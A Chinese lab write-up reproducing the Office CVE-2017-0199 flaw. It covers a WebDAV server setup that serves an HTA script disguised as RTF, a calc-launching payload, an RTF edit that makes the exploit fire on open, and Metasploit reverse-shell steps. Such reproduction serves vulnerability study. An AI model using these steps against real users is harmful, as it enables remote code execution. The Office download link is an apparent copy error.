# CVE-2017-0199

## 测试环境

|            | 推荐环境  | 版本           |
| ---------- | --------- | -------------- |
| 操作系统   | Windows 7 | Service Pack 1 |
| 漏洞软件   | Office    | 2016           |
| 虚拟机     | VMware    | 16.2.3         |
| 调试器     | OllyDBG   | 2.0.1-32位     |
| 反汇编工具 | IDA Pro   | 6.8            |

影响范围：
office 2007
office 2010
office 2013
office 2016

## 环境搭建

https://msdn.itellyou.cn/

Windows 7 sp 1

```
ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/
```

Office 2016

```
ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/
```

## 漏洞复现

检测一下ActiveX是否被默认禁止执行hta程序

查看注册表中“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}”的“Compatibility Flags”项是否为0

如果为400，就修改成0



如果是被禁的话，会提示`用于创建此对象的程序是Word，您的计算机尚未安装此程序或此程序无响应`

去我们有Apache服务的Kali服务器上，Apache需要开启DAV支持

```sh
a2enmod dav
a2enmod dav_fs
a2enmod dav_lock
a2enmod headers
systemctl restart apache2
```

kali的 `/var/www/html/`下,创建一个文本，先写上任意内容



记录kali IP



在受害机上新建word文档，并且导入对象

`http://192.168.254.128/Click.rtf`



正常显示内容



修改kali中Click.rtf文档


```html
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\System32\cmd.exe /c calc.exe', 0);window.close();
</script>
```

更改Apache的配置



```sh
Dav on
Header set Content-Type "application/hta"  
```

`Dav on`确保我们能够远程在kali服务器下载内容。

`Header set Content-Type "application/hta"`  确保我们访问`http://192.168.254.128/Click.rtf` 时，Content-Type为application/hta，该代码指示资源的MIME 类型为hta脚本

保存配置，重启一下服务

```
systemctl restart apache2
```

我们可以抓包验证一下



此时我们再受害机上打开文档，再次点击Chick_on_this，触发远程代码执行



这需要我们手动点击才能触发，我们可以利用rtf文件的特性，利用记事本打开文件，把`{\object\objautlink\rsltpict`然后将其替换为`{\object\objautlink\objupdate\rsltpict`,保存


这样直接打开word文档就能触发



## 漏洞分析

这个漏洞与RTF里面的OLE对象序列化有关


控制字 "\object"

"\objautlink"定义了对象类型

"Object data"被 "\objdata"控制字定义


```
头部
01 05 00 00    // Version
02 00 00 00
09 00 00 00
4f 4c 45 32 4c 69 6e 6b 00   //“OLE2Link”, could be anything
00 00 00 00
00 00 00 00
00 0a 00 00    // Data Length
d0cf11e0a1b11ae1000000000000000000000000000000003e
```

 "d0cf11e0"指明这是一个OLE结构的流，我们可以用oletools看看



这里StdOleLink，它定义了这是一个“链接”对象，而不是“嵌入”。StdOleLink这样一个结构会导致URL Moniker对象被运行。

URL Moniker有它寻找目标对象的特殊方式

```
如果URL 字符串以“http”开始，首先，URL Moniker尝试去从服务器下载资源(到IE缓存)
基于资源的多个属性，一个OLE服务器被选中
"Content-Type"的值
扩展名
通过OLE API "GetClassFile()"
最终，被选中的对象运行以处理资源
```

我们将"Content-Type"的值改成了application/hta，那我们传入的资源被当作一个hta脚本文件，将被COM/OLE服务器"mshta.exe"加载并且运行，实现我们的远程代码执行。



那我们的攻击步骤就是

```
攻击者通过电子邮件向目标用户发送含有OLE2嵌入式链接对象的Microsoft Word文档。
当用户打开文档时，winword.exe将会向远程服务器发出HTTP请求，以索取恶意HTA文件。
服务器返回的文件是一个带有嵌入式恶意脚本的假RTF文件。
Winword.exe通过COM对象查找application / hta的文件处理程序，从而导致Microsoft HTA应用程序（mshta.exe）加载并执行恶意脚本。
```

## 漏洞利用

再kali上打开msf，搜索我们的CVE-2017-0199

```
msfconsole
search CVE-2017-0199
```



加载该模块，并开始设置

```sh
use 0
set payload windows/meterpreter/reverse_tcp
show options
run
```



把那个攻击文档复制出来


```
cp /root/.msf4/local/msf.doc ./ 
```

把msf.doc放到受害机上并打开



kali这边已经成功上线了



参考链接：

[Moniker魔法：直接在Microsoft Office中运行脚本](https://bbs.pediy.com/thread-219234.html)

[office漏洞CVE-2017-0199复现：HTA Handler Vulnerability](http://www.code2sec.com/officelou-dong-cve-2017-0199fu-xian-hta-handler-vulnerabilityyi.html)
